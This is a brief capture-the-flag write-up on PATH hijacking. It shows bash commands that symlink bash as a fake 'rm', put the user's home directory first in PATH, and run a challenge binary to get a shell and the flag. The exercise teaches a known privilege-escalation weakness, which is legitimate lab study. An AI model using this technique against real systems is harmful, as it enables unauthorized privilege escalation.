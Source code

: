 # Hijacking Commands

## Code

```bash
ln -s /usr/bin/bash ./rm
PATH=/home/hacker/:$PATH
/challenge/run
```
## Explanation

I used ln command to create a link between the files then used the 
command PATH=/home/hacker/:$PATH setting the PATH variable to include the /home/hacker/ directory at the beginning,
ensuring that any executables in that directory are found first by the shell.
then used /challenge/run to get the flag
